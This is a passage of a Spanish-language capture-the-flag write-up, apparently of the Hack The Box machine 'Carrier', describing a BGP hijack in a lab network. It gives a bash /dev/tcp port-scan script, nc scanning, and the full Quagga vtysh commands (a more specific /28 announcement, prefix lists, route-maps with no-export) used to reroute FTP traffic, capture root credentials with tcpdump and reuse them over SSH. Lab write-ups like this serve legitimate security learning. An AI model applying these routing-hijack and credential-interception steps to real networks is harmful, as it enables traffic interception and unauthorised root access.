<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/carrier/155page80_tickets_importanThings.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Quizás son pistas como pueda que no, pero hablan de un **CVE**, unos problemas de rutas por malas configuraciones, a `CastCom` (nuestro router **AS300**). Temas relacionados con un server en concreto que mantiene un <u>importante</u> servicio `FTP` y pruebas de inyección en rutas :P Muy loco e.e

Lo de `FTP` suena interesante, porque nos podría estar diciendo que `CastCom` esta enviando data por `FTP`. Toma sentido el ataque para interceptar el tráfico, ¿no? Pero igual no sabemos en cuál IP de todo el segmento de `10.120.15.0/24` esta el servidor **FTP**, ni siquiera sabemos cuáles direcciones de ese segmento están activas, pues averigüémoslo:

```bash
root@r1:/tmp$ cat scanIPs.sh
#!/bin/bash

for ip in {1..255}; do
    timeout 1 bash -c "echo '' > /dev/tcp/10.120.15.$ip/21" 2>/dev/null && echo "[+] La IP 10.120.15.$ip tiene el puerto 21 abierto" &
done; wait
```

Le decimos que nos haga un bucle con 255 repeticiones, donde ese número será el último octeto de la IP. Para comprobar si existe una IP con ese PUERTO, enviara una traza por cada IP contra el puerto `21`, si en algún momento la respuesta no nos devuelve error pasa a ejecutar el siguiente comando, o sea, nos muestra la IP que tiene activo el puerto.

Si lo ejecutamos, rápidamente vemos la IP:

```bash
root@r1:/tmp$ ./scanIPs.sh 
[+] La IP 10.120.15.10 tiene el puerto 21 abierto
```

Pos perfecto, ya tenemos la IP.

Si quisiéramos saber si existen más puertos abiertos en ella, podemos ya sea modificar el script colocando la IP completa y que el iterador ahora esté en el puerto, o usar `nc`, por ejemplo para ver el rango de puertos del **20** al **10000** y ver cuáles están abiertos:

```bash
root@r1:/tmp$ nc -z -v 10.120.15.10 20-10000 2>&1 | grep succeeded
Connection to 10.120.15.10 21 port [tcp/ftp] succeeded!
Connection to 10.120.15.10 22 port [tcp/ssh] succeeded!
Connection to 10.120.15.10 53 port [tcp/domain] succeeded!
```

Tiene activo `SSH`, `FTP` y `DNS`, lindo. Pues sigamos, empecemos a interactuar con la consola de `Quagga` y los "vecinos" a ver como relacionamos esta IP con los **AS**.

...

### Exploramos CLI de <u>Quagga</u> [🔗](#cli-quagga-vtysh) {#cli-quagga-vtysh}

Buscando maneras de interactuar con `Quagga` encontramos:

* [BGP routing - Peering with **Quagga**](https://www.jamieweb.net/blog/bgp-routing-security-part-1-bgp-peering-with-quagga/#installing-quagga).
* [How to build a network of Linux routers using quagga](https://www.brianlinkletter.com/2016/06/how-to-build-a-network-of-linux-routers-using-quagga/).
* [YT : BGP Path Hijacking Attack Demo - mininet](https://youtu.be/Ovh_ceqp63M?t=149).

Para abrir la consola de comandos que se comunica con **Quagga** usamos el comando `vtysh`:

```bash
root@r1:/tmp$ vtysh 

Hello, this is Quagga (version 0.99.24.1).
Copyright 1996-2005 Kunihiro Ishiguro, et al.

r1# 
```

Perfecto, ya estamos en las puertas del router `r1` y su configuración... Del video vemos un comando interesante y que nos devuelve data mucho más interesante:

```bash
r1# show ip bgp
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/carrier/155bash_r1SH_vtysh_shIPbgp1.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Donde vemos los tres **AS**'s y subrayado tenemos las rutas que hacen, por ejemplo la primera ruta para llegar más rápido a una IP del segmento `10.100.10.0/24` seria pasar por el `AS200` directamente y la segunda mejor ruta es ir del `AS300` al `AS200`.

Encontramos [este recurso de cisco](https://www.cisco.com/c/en/us/td/docs/ios-xml/ios/iproute_bgp/command/irg-cr-book/bgp-s1.html#wp1745539073) que nos indica dos cosas de lo que vemos:

* `*` hace referencia a una ruta válida.
* `>` hace referencia a la mejor ruta.

Bien, ya entendiendo el output, enfoquémonos en la IP relacionada con `FTP`:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/carrier/155bash_r1SH_vtysh_shIPbgp2.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Las rutas para llegar más rápido a una IP del segmento `10.120.15.0/24` son: ir directamente a `AS300` o ir del `AS200` al `AS300`, acá es donde debemos nosotros como `AS100` buscar la manera de engañar al servidor y hacerle creer que pasar por nosotros es la ruta más rápida :) Así lograremos interceptar el tráfico...

Si al comando que ejecutamos antes le agregamos una IP, nos muestra las rutas para llegar a esa IP:

```bash
r1# show ip bgp 10.120.15.10
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/carrier/155bash_r1SH_vtysh_shIPbgpIP.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Perfecto, mucho más entendible por si algo 🛸

...

Después de algunas pruebas nos damos cuenta de que al crear una nueva red con respecto al segmento donde esta la IP que tiene el servidor **FTP**, se modifican las rutas:

> Les paso links de los cuales recopile comandos e hice pruebas:

* [Configuring BGP (IPv4)](https://www.jamieweb.net/blog/bgp-routing-security-part-1-bgp-peering-with-quagga/#configuring-bgp-ipv4).
* [BGP Prefix Hijack Attacks - ColoState](https://www.isi.deterlab.net/file.php?file=/share/shared/BGPhijacking).
* [Solución de problemas cuando las rutas del BGP no están anunciadas](https://www.cisco.com/c/es_mx/support/docs/ip/border-gateway-protocol-bgp/19345-bgp-noad.html).

Así que lo dicho, vamos a crear una red en el `AS100` (nosotros) que en su segmento de IPs contenga la que tiene el servidor FTP, validaremos las rutas de la nueva red eeee interceptaremos el tráfico que pase ahora por nuestro `AS100`:

<span style="color: yellow;">1. </span>Creamos red:

```bash
r1# conf t
r1(config)# router bgp 100
r1(config-router)# network 10.120.15.0/24
```

No voy a profundizar mucho en esto, pero me guiaré del comentario de [Franco Ramírez en Quora](https://es.quora.com/Qu%C3%A9-significan-los-dos-%C3%BAltimos-n%C3%BAmeros-de-una-direcci%C3%B3n-IP) para que se entienda un poco la red `10.120.15.0/24`:

Cada IP tiene 4 octetos, o sea, 4 "cajoncitos" (para ser gráficos) de 8 bits cada uno, por lo cual una IP tendría en total `32` bits (el cálculo de `8*4`). Perfecto, toma sentido esto:

> "El número 24 nos dice que, de los 32 bits que constituyen la dirección, 24 le pertenecen a la red", nos dice [Franco](https://es.quora.com/Qu%C3%A9-significan-los-dos-%C3%BAltimos-n%C3%BAmeros-de-una-direcci%C3%B3n-IP).

Si usamos una [calculadora de IPs](https://www.iptp.net/es_ES/iptp-tools/ip-calculator/), vemos el rango de direcciones que podemos ahondar con esa red:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/carrier/155google_ipcalculator_24ranges.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Crearemos una red que puede tomar IPs desde la `10.120.15.1` hasta la `10.120.15.254`, entre ellas esta la que nos interesa, `10.120.15.10`, perfecto.

<span style="color: yellow;">2. </span>Validamos la creación de la red y las rutas:

```bash
r1(config-router)# exit
r1(config)# exit
r1# show running-config
...
!
router bgp 100
 bgp router-id 10.255.255.1
 network 10.101.8.0/21
 network 10.101.16.0/21
 network 10.120.15.0/24
 redistribute connected
 neighbor 10.78.10.2 remote-as 200
 neighbor 10.78.10.2 route-map to-as200 out
 neighbor 10.78.11.2 remote-as 300
 neighbor 10.78.11.2 route-map to-as300 out
!
...
```

Perfesto, vemos que la red ya esta en la configuración, validamos las rutas:

```bash
r1# show ip bgp
...
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/carrier/155bash_r1SH_vtysh_shIPbgpNewETWORK.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Ahora vemos que como ruta deseada por las IPs del segmento `10.120.15.0/24` estamos nosotros, `0.0.0.0` (: validemos si esto es cierto, usemos `tcpdump` para escuchar el tráfico que pase por cualquier interfaz y sobre el puerto `21` (FTP), guardamos todo en un archivo llamado `hola.pcap`:

```bash
r1# write
```

* [How to capture and analyze packets with tcpdump command on Linux](https://www.linuxtechi.com/capture-analyze-packets-tcpdump-command-linux/).

---

```bash
root@~:r1$ tcpdump -i any port 21 -w hola.pcap
```

Pero después de un rato, no se nos guarda nada en el archivo, por lo que sabemos que hay algo extraño que no permite aún interceptar el tráfico :(

---

### Logramos <u>BGP Hijacking</u> pero con un fallito (tamos cerca) [🔗](#fail-bgp-hijacking-ftp) {#fail-bgp-hijacking-ftp}

Jugando y jugando, hay algo llamativo:

Como ya vimos la red `10.120.15.0/24` nos pondrá a disposición `254` hosts, entre ellos el terminado en `10` que es el que necesitamos. Si aumentamos la máscara nos restara hosts, por ejemplo con la red `10.120.15.0/25` tendremos `126` hosts y también esta la `10`.

Pero ¿y si debemos hacer que nuestra red sea lo más especifica posible y que apenas llegue la conexión se dirija si o si a nosotros?

Pues si seguimos los ejemplos de arriba, podemos usar la red `10.120.15.0/28`:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/carrier/155google_ipcalculator_28ranges.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Ella generará simplemente `14` hosts para repartir y si, entre ellos esta la que necesitamos, la `10`.

Intentémoslo:

```bash
r1# conf t
r1(config)# router bgp 100
r1(config-router)# network 10.120.15.0/28
r1(config-router)# exit
r1(config)# exit
r1# write
Building Configuration...
Configuration saved to /etc/quagga/zebra.conf
Configuration saved to /etc/quagga/bgpd.conf
[OK]
r1#
```

Jugamos ahora con `tcpdump`:

```bash
root@~:r1$ tcpdump -i any port 21 -w hola.pcap
```

Yyyyyyyy después de un rato, si vemos el tamaño del archivoooooooooooooo:

```bash
root@~:r1$ ls -la 
...
-rw-r--r-- 1 root root 9592 Jul 29 25:25 hola.pcap
...
```

OPAAAA, hay contenido, 9K, si le hacemos un `cat` no se entiende nada, así que movamos el archivo a nuestra máquina y lo abrimos con `wireshark`:

```bash
root@~:r1$ cat hola.pcap | base64 | tr -d '\n'
```

Lo tenemos en **base64**, copiamos tooodo y ahora:

```bash
❱ echo "todo_el_base64" | base64 -d > hola.pcap
❱ file hola.pcap 
hola.pcap: pcap capture file, microsecond ts (little-endian) - version 2.4 (Linux cooked v1, capture length 262144)
```

Listones:

```bash
# Abrimos Wireshark en segundo plano y que no nos ocupe la terminal
❱ (wireshark hola.pcap >& /dev/null &)
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/carrier/155bash_wireshark_fail_RETRANSMISSION.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Jmmm, montón de errores en la transmisión, pero bueno, tenemos respuesta, vemos la comunicación entre `10.78.10.2` y `10.78.11.2` contra la IP `10.120.15.10`, por lo que vamos suuuuuuuper, ahora solo nos queda ver porque pasa esto...

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/carrier/155google_gif_minionsexcited.gif" style="display: block; margin-left: auto; margin-right: auto; width: 80%;"/>

En internet encontramos esta definición del error:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/carrier/155google_packetRetransmissionERROR.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

> Tomada de [dynatrace, "Detecting network errors and their impact on services"](https://www.dynatrace.com/news/blog/detecting-network-errors-impact-on-services/).

Varias cositas, quizás el paquete se pierda y no llega al destino (nosotros), hay algún bloqueo o como dice ahí, alguna congestión que evita que los paquetes viajen correctamente...

...

### <u>BGP Hijacking</u> hecho y vemos credenciales en tráfico FTP [🔗](#done-bgp-hijacking-ftp) {#done-bgp-hijacking-ftp}

🚢 Nutriéndonos de info sobre `BGP Hijacking` encontramos un **POC** con una estructura prácticamente igual a la que tenemos, solo que son diferentes IPs, pero, es igual, 3 routers y 2 de ellos comunicados mediante **FTP**:

* [BGP Hijacking: Demo](https://neff.blog/2019/06/05/bgphijacking-part2/).

Hay una parte en la que agrega unas líneas distintas a las que hemos usado y al final nos muestra que su explotación fue hecha con éxito, así que podemos probar lo que tiene él:

Nos explica que usa esas líneas (ya las veremos) porque el tráfico no alcanza a llegar al servidor `FTP`, ya que (en su ejemplo) el *router 3* reenvía el tráfico al *router 1* por un tema de "prefijos" (que serian como indicadores de un conjunto de direcciones). Entonces el tráfico queda como en bucle y cada *router* reenvía la data al otro.

Por lo tanto él actualiza las políticas de enrutamiento en el *router 1* indicando que el tráfico sea reenviado totalmente hacia el *router 3*, lo que permite que el servidor **FTP** reciba las peticiones.

> Pueees, suena como algo que nos pueda estar pasando, sigamoslo.

Definimos un prefijo que contenga todos los hosts de nuestra red, se llamara `holacomoes`:

```bash
r1# conf t
r1(config)# ip prefix-list holacomoes seq 5 permit 10.120.15.0/28
```

Evitamos que `AS100` comparta las direcciones de nuestro prefijo con `AS300`:

```bash
r1(config)# route-map to-as300 deny 5
r1(config-route-map)# match ip address prefix-list holacomoes
r1(config-route-map)# exit
```

Ahora permitimos que `AS100` comparta la lista de direcciones con `AS200`, peeero también le decimos (con `set ...`) que `AS200` no comparta sus prefijos (listas de direcciones) con otros routers:

```bash
r1(config)# route-map to-as200 permit 5
r1(config-route-map)# match ip address prefix-list holacomoes
r1(config-route-map)# set community no-export
r1(config-route-map)# exit
r1(config)# exit
```

Y ahora simplemente guardamos para que los cambios hagan efecto:

```bash
r1# clear ip bgp * out
r1# write
```

Para ver como nos quedó la conf podemos ya sea ver el archivo `/etc/quagga/bgpd.conf` o usar:

````bash
r1# show running-config
```

```bash
...
!
router bgp 100
 bgp router-id 10.255.255.1
 network 10.101.8.0/21
 network 10.101.16.0/21
 network 10.120.15.0/28
 redistribute connected
 neighbor 10.78.10.2 remote-as 200
 neighbor 10.78.10.2 route-map to-as200 out
 neighbor 10.78.11.2 remote-as 300
 neighbor 10.78.11.2 route-map to-as300 out
!
ip prefix-list holacomoes seq 5 permit 10.120.15.0/28
!
route-map to-as300 deny 5
 match ip address prefix-list holacomoes
!
route-map to-as200 permit 5
 match ip address prefix-list holacomoes
 set community no-export
!
route-map to-as200 permit 10
!
route-map to-as300 permit 10
!
...
```

Listo, pues pongámonos de nuevo en escucha con `tcpdump` y descubramos si hay algo nuevo en el tráfico:

1. `tcpdump -i any port 21 -w hola.pcap`
2. Esperamos un rato.
  * (Vemos que el tamaño del archivo es más grande, ¿nos emocionamos desde ya?) 
3. Copiamos el contenido del archivo, lo pasamos a **base64**.
4. Pegamos la cadena en nuestra máquina, generamos un archivo con ella.
5. Abrimos el paquete ya sea con `tshark` o `wireshark`:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/carrier/155bash_wireshark_DONE_credentialsFTP.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

OPAAAAAAAAAAAAAAAAAAAAAAAa que se ve por ahííííííííí?????????? DIOSSSSSSSSSSSSSS

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/carrier/155bash_wireshark_packetFTPwithCREDS.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

SIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIiiiiiiiiiiiialksdfjlkañjsdlfkñjklasjdglkk

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/carrier/155google_gif_muppetexcited.gif" style="display: block; margin-left: auto; margin-right: auto; width: 60%;"/>

¡Que belleza esto POR FA VOOOOOOOOOOOOOOOOOOOR! Brutal...

Bueno, tenemos unas credenciales de un usuario llamado `root` en su conexión contra el servidor **FTP**, pueeeeeeeeeeeeeeees, hagamos reutilización de contraseñas y probémoslas contra el servicio `SSH` y el usuario **root**:

```bash
❱ ssh root@10.10.10.105
root@10.10.10.105's password:
...
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/carrier/155bash_ssh_rootSH.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

TAMOO compai', estamos en el sistema como el usuario **root**, en el trafico `FTP` vimos algo sobre un archivo llamado `secretdata.txt`, pero el contenido es el hash de la flag `user.txt`, así que no nos preocupamos por el.

Veamos las flags:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/carrier/155flags.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Po hemo teminao'

...

Muy divertida esta máquina, locura brutal el tema del `BGP Hijacking`, debo decir que las redes no son ni mi fuerte ni mi gusto, pero uff esta máquina me hizo como olvidarme de esto y disfrutar un mónton el proceso. 

Increible esto ⛲

Y bueno, nos leeremos despues, muchas gracias por todo <3 YYYYYYY a seguir rompiendo todo!!